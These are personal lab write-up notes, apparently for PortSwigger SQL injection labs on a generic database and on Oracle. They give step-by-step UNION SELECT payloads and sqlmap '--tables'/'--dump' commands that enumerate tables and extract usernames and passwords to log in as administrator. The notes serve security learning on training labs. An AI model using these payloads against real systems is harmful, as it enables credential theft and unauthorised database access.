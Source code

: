 ```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
~~~
'+UNION+SELECT+'abc','def'--.
~~~
3. Use the following payload to retrieve the list of tables in the database:
~~~
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
~~~
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
~~~
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
~~~
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
~~~
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
~~~
8. Find the password for the ``administrator`` user, and use it to log in.
```

## SQL injection attack, listing the database contents on Oracle
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

```ad-hint
title: Quick Solution
The same applies for this lab with a little difference: ``Oracle`` DBMS is a little bit different when it comes to databases. So I used this commands:

### Get Tables
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --tables
~~~
### Then I found the target table and runned
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" -T <users_table_name> --dump
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter:
~~~
'+UNION+SELECT+'abc','def'+FROM+dual--
~~~
3. Use the following payload to retrieve the list of tables in the database:
~~~
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
~~~
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
~~~
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
~~~
6. Find the names of the columns containing usernames and passwords.
```